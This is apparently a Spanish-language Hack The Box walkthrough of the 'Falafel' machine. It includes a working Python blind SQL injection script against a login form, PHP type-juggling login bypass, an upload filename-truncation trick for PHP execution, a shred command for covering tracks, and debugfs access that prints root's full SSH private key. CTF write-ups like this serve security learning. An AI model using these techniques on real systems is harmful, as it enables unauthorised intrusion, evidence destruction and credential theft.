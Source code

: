 ```yaml
---
title: Falafel
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [typejugglingattack, sqlsubstring, ]     # TAG names should always be lowercase
---
```


```shell 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 09:51 CDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 100.00% done; ETC: 09:51 (0:00:00 remaining)
Nmap scan report for 10.10.10.73
Host is up (0.097s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 36:c0:0a:26:43:f8:ce:a8:2c:0d:19:21:10:a6:a8:e7 (RSA)
|   256 cb:20:fd:ff:a8:80:f2:a2:4b:2b:bb:e1:76:98:d0:fb (ECDSA)
|_  256 c4:79:2b:b6:a9:b7:17:4c:07:40:f3:e5:7c:1a:e9:dd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Falafel Lovers
| http-robots.txt: 1 disallowed entry 
|_/*.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.73 seconds
```

Viendo la página web vemos que tenemos acceeso un apartado de login donde podemos ver que usuarios son válidos o no

![imagen1](/assets/images/farafel1.png)

Haciendo fuzzing encontramos rutas donde podemos ver un archivo cyberlaw.txt

```shell
From: Falafel Network Admin (admin@falafel.htb)
Subject: URGENT!! MALICIOUS SITE TAKE OVER!
Date: November 25, 2017 3:30:58 PM PDT
To: lawyers@falafel.htb, devs@falafel.htb
Delivery-Date: Tue, 25 Nov 2017 15:31:01 -0700
Mime-Version: 1.0
X-Spam-Status: score=3.7 tests=DNS_FROM_RFC_POST, HTML_00_10, HTML_MESSAGE, HTML_SHORT_LENGTH version=3.1.7
X-Spam-Level: ***

A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.

Dear lawyers, please handle him. I believe Cyberlaw is on our side.
Dear develpors, fix this broken site ASAP.

	~admin
```

Tenemos un nuevo usuario "chris", en el apartado de login podemos hace un tipo de sqlinjection blind para ir averiguando la contraseña de admin y chris, para eso nos montamos un script en python

![imagen2](/assets/images/farafel2.png)

```python
#1/usr/bin/python3
from pwn import *
import signal, pdb, requests, string, sys

#ctrl+c

def def_handler(sig, frame):
    print("\n\nSaliendo....\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

#Variables globales
post_url="http://10.10.10.73/login.php"
characters= string.digits + "abcdef"

def iterate():
    
    p1=log.progress("SQLINJECTION")
    p1.status("Iniciando fuerza bruta")

    password = " "
    
    p2 = log.progress(password)

    for position in range(1,50):
        for character in characters:

            post_data = {
                    "username":"chris' and substring(password,%d,1)='%s'-- -" %  (position, character),
                    "password":"test"
                    }


            p1.status(post_data["username"])

            r = requests.post(post_url, data=post_data)
            
            if "Try again.." not in r.text:
                password += character
                p2.status(password)         
                break

if __name__ == '__main__':
    iterate()
```

Con esto podemos obtener la contraseña de chris y admin, al ver la contraseña de admin podemos ver que tiene una forma peculiar

```shell
python blindsql.py
[↙] SQLINJECTION: admin' and substring(password,38,1)='0'-- -
[\]  :  0e462096931906507119562988736854
```
Con esto podemos hacer un `juggling` por la manera en que se puede interpretar esa igualdad de la contraseña del admin, por ejemplo vemos que esta igualdad se cumple aunque no sea el mismo hash

```php
php > if ("0e462096931906507119562988736854" == "0") { echo "La cadenas son iguales"; }
La cadenas son iguales
```
Por lo que buscamos alguna contraseña que pueda empezar con `0e` para poder entrar con el usuario admin.

![imagen3](/assets/images/farafel3.png)

Una vez dentro, podemos subir un archivo jpg o png, para este paso podríamos desbordar los límites del nombre del archivo que subimos para que detecte la extensión png o jpg pero al final 
con el acortador se quede como archivo .php

```shell
sudo /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 251
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3
Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai
```
Y para validar el offset y saber la longitud exacta podemos utilizar: 

```shell
sudo /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q h7Ah
[*] Exact match at offset 232
```
![imagen5](/assets/images/farafel5.png)

Suibimos el archivo y ya podemos ejecutar comandos y intablarnos una reverse shell, para eliminar archivos y no se detecte tan facil podemos usar `shred`

```shell
shred -zun 10 -v ARCHIVO
```
Aquí se reutiliza la contraseña de mysql del usuario mosh que está en un grupo "video", viendo los archivos que puede inspeccionar

```shell
moshe@falafel:/$ find \-group video 2>/dev/null
./dev/fb0
./dev/dri/card0
./dev/dri/renderD128
./dev/dri/controlD64
```
Nos movemos el archivo fb0 para poder abrirlo por gimp que es un editor de imágenes y con ayuda de un archivo de virtual_size vemos el tamaño del archivo

```shell
moshe@falafel:/sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0$ pwd
/sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0
moshe@falafel:/sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0$ ls
bits_per_pixel  blank  bl_curve  console  cursor  dev  device  mode  modes  name  pan  power  rotate  state  stride  subsystem  uevent  virtual_size
moshe@falafel:/sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0$ cat virtual_size
1176,885
```
![imagen6](/assets/images/farafel6.png)

Vemos que el usuario yossi está en el grupo disk, por lo que podemos hacer debug del disco donde está linux con `debugfs` y podemos leer cualquier archivo del sistema.

```shell
yossi@falafel:~$ fdisk -l
Disk /dev/sda: 8 GiB, 8589934592 bytes, 16777216 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x01590ad6

Device     Boot    Start      End  Sectors  Size Id Type
/dev/sda1  *        2048 14680063 14678016    7G 83 Linux
/dev/sda2       14682110 16775167  2093058 1022M  5 Extended
/dev/sda5       14682112 16775167  2093056 1022M 82 Linux swap / Solaris

yossi@falafel:~$ debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs:  ls
debugfs:  pwd
debugfs:  cd root
debugfs:  cd .ssh
debugfs:  cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyPdlQuyVr/L4xXiDVK8lTn88k4zVEEfiRVQ1AWxQPOHY7q0h
b+Zd6WPVczObUnC+TaElpDXhf3gjLvjXvn7qGuZekNdB1aoWt5IKT90yz9vUx/gf
v22+b8XdCdzyXpJW0fAmEN+m5DAETxHDzPdNfpswwYpDX0gqLCZIuMC7Z8D8Wpkg
BWQ5RfpdFDWvIexRDfwj/Dx+tiIPGcYtkpQ/UihaDgF0gwj912Zc1N5+0sILX/Qd
UQ+ZywP/qj1FI+ki/kJcYsW/5JZcG20xS0QgNvUBGpr+MGh2urh4angLcqu5b/ZV
dmoHaOx/UOrNywkp486/SQtn30Er7SlM29/8PQIDAQABAoIBAQCGd5qmw/yIZU/1
eWSOpj6VHmee5q2tnhuVffmVgS7S/d8UHH3yDLcrseQhmBdGey+qa7fu/ypqCy2n
gVOCIBNuelQuIAnp+EwI+kuyEnSsRhBC2RANG1ZAHal/rvnxM4OqJ0ChK7TUnBhV
+7IClDqjCx39chEQUQ3+yoMAM91xVqztgWvl85Hh22IQgFnIu/ghav8Iqps/tuZ0
/YE1+vOouJPD894UEUH5+Bj+EvBJ8+pyXUCt7FQiidWQbSlfNLUWNdlBpwabk6Td
OnO+rf/vtYg+RQC+Y7zUpyLONYP+9S6WvJ/lqszXrYKRtlQg+8Pf7yhcOz/n7G08
kta/3DH1AoGBAO0itIeAiaeXTw5dmdza5xIDsx/c3DU+yi+6hDnV1KMTe3zK/yjG
UBLnBo6FpAJr0w0XNALbnm2RToX7OfqpVeQsAsHZTSfmo4fbQMY7nWMvSuXZV3lG
ahkTSKUnpk2/EVRQriFjlXuvBoBh0qLVhZIKqZBaavU6iaplPVz72VvLAoGBANj0
GcJ34ozu/XuhlXNVlm5ZQqHxHkiZrOU9aM7umQkGeM9vNFOwWYl6l9g4qMq7ArMr
5SmT+XoWQtK9dSHVNXr4XWRaH6aow/oazY05W/BgXRMxolVSHdNE23xuX9dlwMPB
f/y3ZeVpbREroPOx9rZpYiE76W1gZ67H6TV0HJcXAoGBAOdgCnd/8lAkcY2ZxIva
xsUr+PWo4O/O8SY6vdNUkWIAm2e7BdX6EZ0v75TWTp3SKR5HuobjVKSht9VAuGSc
HuNAEfykkwTQpFTlmEETX9CsD09PjmsVSmZnC2Wh10FaoYT8J7sKWItSzmwrhoM9
BVPmtWXU4zGdST+KAqKcVYubAoGAHR5GBs/IXFoHM3ywblZiZlUcmFegVOYrSmk/
k+Z6K7fupwip4UGeAtGtZ5vTK8KFzj5p93ag2T37ogVDn1LaZrLG9h0Sem/UPdEz
HW1BZbXJSDY1L3ZiAmUPgFfgDSze/mcOIoEK8AuCU/ejFpIgJsNmJEfCQKfbwp2a
M05uN+kCgYBq8iNfzNHK3qY+iaQNISQ657Qz0sPoMrzQ6gAmTNjNfWpU8tEHqrCP
NZTQDYCA31J/gKIl2BT8+ywQL50avvbxcXZEsy14ExVnaTpPQ9m2INlxz97YLxjZ
FEUbkAlzcvN/S3LJiFbnkQ7uJ0nPj4oPw1XBcmsQoBwPFOcCEvHSrg==
-----END RSA PRIVATE KEY-----
```

